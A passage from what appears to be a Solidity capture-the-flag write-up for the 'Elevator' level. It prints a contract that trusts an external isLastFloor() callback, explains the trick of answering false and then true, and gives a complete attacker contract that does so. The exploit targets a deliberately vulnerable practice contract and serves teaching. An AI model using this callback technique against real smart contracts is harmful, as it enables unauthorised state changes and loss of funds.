 > ```


<hr>

## 11 Elevator
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

To complete this level we have to return different values from a function to bypass the checks, first to we have to return `false` to pass the check `! building.isLastFloor(_floor)`, there after we have to return `true` to make the variable `top` to `true`.

> #### Solution:
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface ele {
>     function goTo(uint _floor) external;
> }
> 
> contract elevator {
>     ele e;
>     uint count;
> 
>     constructor(address _instance){
>         e = ele(_instance);
>     }
> 
>     function isLastFloor(uint _floor) public returns (bool){
>         if (count == 0){
>             count++;
>             return false;
>         }
>         return true;
>     }
> 
>     function callGoto() public{
>         uint _floor = 1;
>         e.goTo(_floor);
>     } 
> }